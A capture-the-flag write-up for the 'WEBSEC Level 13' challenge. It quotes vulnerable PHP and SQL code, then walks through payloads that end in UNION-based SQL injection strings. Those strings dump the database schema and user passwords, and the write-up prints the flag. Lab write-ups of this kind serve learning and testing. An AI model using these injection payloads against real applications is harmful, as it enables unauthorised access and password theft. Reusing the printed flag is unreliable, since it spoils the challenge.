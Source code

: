 # WEBSEC Level 13


### Challenge description

Yet an other sqli challenge, or is it? Yes it is. Or… is it?

### Initial analysis
`  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";`

### Walk through

STEP 1: Payload: `1,2,3 `
OUTPUT: User user_36 with id 1 has no privileges. User user_13 with id 2 has no privileges. User user_99 with id 3 has no privileges.

STEP 2: Payload: `0,0,0 `
OUTPUT: User admin with id 0 has all privileges.

STEP 3: Payload: `",,,)) union select 1,2, sql as user_id from sqlite_master-- `
OUTPUT: User CREATE TABLE users ( user_id INTEGER PRIMARY KEY, user_name TEXT NOT NULL, user_privileges INTEGER NOT NULL, user_password TEXT NOT NULL ) with id 1 has no privileges.

STEP 3: Payload: `",,,)) union select 1,2,user_password as user_id from users--` 
OUTPUT: User WEBSEC{SQL_injection_in_your_cms,_made_simple} with id 1 has no privileges.


### Flag

**FLAG**: `WEBSEC{SQL_injection_in_your_cms,_made_simple}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
